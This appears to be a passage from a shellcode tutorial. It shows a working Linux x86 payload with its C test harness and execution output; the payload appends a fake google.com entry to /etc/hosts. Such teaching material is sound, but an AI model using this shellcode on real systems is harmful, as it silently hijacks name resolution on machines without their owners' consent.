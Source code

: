 ```sh
$ ./compile.sh modify-hosts
[+] Assembling with Nasm ... 
[+] Linking ...
[+] Done!
"\x51\x58\x04\x05\x51\xeb\x31\x5b\x66\xb9\x01\x04\xcd\x80\x89\xc3\x6a\x04\x58\xeb\x0a\x59\xb2\x14\xcd\x80\x6a\x01\x58\xcd\x80\xe8\xf1\xff\xff\xff\x31\x32\x37\x2e\x31\x2e\x31\x2e\x31\x20\x67\x6f\x6f\x67\x6c\x65\x2e\x63\x6f\x6d\xe8\xca\xff\xff\xff\x2f\x65\x74\x63\x2f\x68\x6f\x73\x74\x73"
```
<p style="text-align: justify;">Shellcode.c wrapper file content:</p>

```c
#include<stdio.h>
#include<string.h>

unsigned char code[] = \
"\x51\x58\x04\x05\x51\xeb\x31\x5b\x66\xb9\x01\x04\xcd\x80\x89\xc3\x6a\x04\x58\xeb\x0a\x59\xb2\x14\xcd\x80\x6a\x01\x58\xcd\x80\xe8\xf1\xff\xff\xff\x31\x32\x37\x2e\x31\x2e\x31\x2e\x31\x20\x67\x6f\x6f\x67\x6c\x65\x2e\x63\x6f\x6d\xe8\xca\xff\xff\xff\x2f\x65\x74\x63\x2f\x68\x6f\x73\x74\x73";
main()
{

	printf("Shellcode Length:  %d\n", strlen(code));

	int (*ret)() = (int(*)())code;

	ret();

}
```
Execution:
```sh
$  cat /etc/hosts
127.0.0.1	localhost
127.0.1.1	ubuntu
# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters

$ gcc -fno-stack-protector -z execstack shellcode.c -o shellcode
$ ./shellcode

Shellcode Length:  71

$ cat /etc/hosts
127.0.0.1	localhost
127.0.1.1	ubuntu
# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
127.1.1.1 google.com            <---------
```
------------------------------------------------------------------------------------------------
### Summary
